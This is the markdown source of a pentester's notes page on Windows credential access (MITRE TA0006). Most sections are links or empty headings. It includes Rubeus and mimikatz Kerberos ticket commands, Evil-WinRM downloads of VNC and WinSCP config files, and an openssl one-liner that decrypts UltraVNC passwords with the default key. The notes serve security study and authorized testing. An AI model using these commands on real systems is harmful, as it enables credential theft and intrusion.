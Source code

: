 ```yaml
---
layout: post
title: TA0006 Credentials Access - Windows
category: pen
parent: pen
modified_date: 2023-03-13
permalink: /pen/credsaccess-win
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [Multi-features Hacking Tools](#Multi-featuresHackingTools)
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [Which OS ? What Creds ?](#WhichOSWhatCreds)
	* [Rubeus](#Rubeus)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)
* [Services](#Services)
* [Scheduled Tasks](#ScheduledTasks)
* [Sofwares](#Sofwares)
	* [Automated](#Automated)
	* [mRemoteNG](#mRemoteNG)
	* [xVNC](#xVNC)
	* [WinSCP](#WinSCP)
	* [Putty](#Putty)
	* [Web Browsers](#WebBrowsers)
* [NTDS.dit dump](#NTDS.ditdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='Multi-featuresHackingTools'></a>Multi-features Hacking Tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

### <a name='WhichOSWhatCreds'></a>Which OS ? What Creds ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: 
* [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)

### <a name='Rubeus'></a>Rubeus 

- [Wiki](https://github.com/GhostPack/Rubeus)
- Compilation :
```powershell
# compilation
```

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='LSASS.exedump'></a>LSASS.exe dump

- [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/) 🔥
- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

## <a name='SAMdump'></a>SAM dump

- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## <a name='Services'></a>Services

## <a name='ScheduledTasks'></a>Scheduled Tasks

## <a name='Sofwares'></a>Sofwares

### <a name='Automated'></a>Automated

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='mRemoteNG'></a>mRemoteNG

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xVNC'></a>xVNC

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='WinSCP'></a>WinSCP

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```

### <a name='Putty'></a>Putty

### <a name='WebBrowsers'></a>Web Browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## <a name='NTDS.ditdump'></a>NTDS.dit dump